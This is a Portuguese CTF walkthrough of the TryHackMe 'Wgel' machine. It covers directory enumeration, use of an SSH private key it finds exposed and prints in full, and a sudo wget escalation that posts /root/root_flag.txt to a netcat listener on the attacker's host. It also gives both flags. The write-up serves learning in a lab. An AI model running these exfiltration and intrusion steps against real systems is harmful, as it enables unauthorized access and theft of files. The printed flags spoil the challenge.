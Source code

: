Wgel CTF

Ao iniciar a maquina dei comando nmap para saber as portas daquele IP

    nmap -A IP

apos ver um apache instalado dei um gobuster para ver os diretorios, usei a wordlist commom.txt

    gobuster dr -u IP -w /usr/share/dirb/wordlist/commom.txt

ao encontrar os diretorio /sitemap dei um gobuster novamente mas agora filtrando o /sitemap

    gobuster dr -u IP/sitemap -w /usr/share/dirb/wordlist/commom.txt

assim encontrando a pagina principal do desafio ao procurar na pagina pelo css, js, etc.. encontrava-se 2 informacoes importantes. No codigo fonte do apache tinha mencao a um possivel usuario(jessie) e no /sitemap/index.html tambem tinha mencao a jessie assim dando a entender que seria o usuario jessie

ao vasculhar pelos diretorios do /site map tinha um /.ssh ao abrir tinha uma chave privada RSA 

    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
    m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
    W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
    y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
    +J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
    Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
    /1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
    AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
    M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
    SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
    2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
    p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
    7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
    dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
    GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
    shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
    uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
    LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
    QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
    V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
    hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
    9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
    eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
    QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
    jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
    -----END RSA PRIVATE KEY-----

assim era so invadir, fazendo conexao ssh com o usuario jessie.. entretanto tinhamos que baixar o arquivo 

    wget IP/sitemap/.ssh/id_rsa

ao baixar e tentar invadir o RSA nao estava com suas permissoes padroes assim tendo que atualizar suas permissoes

    chmod 600 id_rsa

agora sim se tornando possivel invadir o sistema

    sudo ssh -i id_rsa jessi@IP

entrando no usuario jessi era so procurar pela 1 flag que se encontrava na pasta Documents

    cd Documents
    cat user_flag.txt

assim acessando a 1 flag, para encontrar a segundo o tryhackme ja informou que precisava do usuario 'root' ao dar o comando 

    sudo -l 

vimos que o usuario jessie tinha permissao para executar o /usr/bin/wget como root, assim era so procurar uma forma de acessar para poder procurar a ultima flag no site GTFObins ao procurar wget tinha uma falha para fazer um NETCAT para nossa maquina assim...

tinhamos que saber qual era o arquivo a ser lido, porem nao era possivel vizualizar a pasta root e apos tentar alguns nomes como root/root.txt, deduz-se que poderia ser root/root_user.txt visto que a 1 flag tinha um nome parecido.. apos abrir a porta na sua maquina

    nc -nlvp 1333

era so executar o comando..

    sudo wget --post-file=/root/root_flag.txt IPtryhackme:1333

assim encontrando as 2 flags e finalizando o desafio.

FLAGS

    Flag 1: 057c67131c3d5e42dd5cd3075b198ff6
    Flag 2: b1b968b37519ad1daa6408188649263d
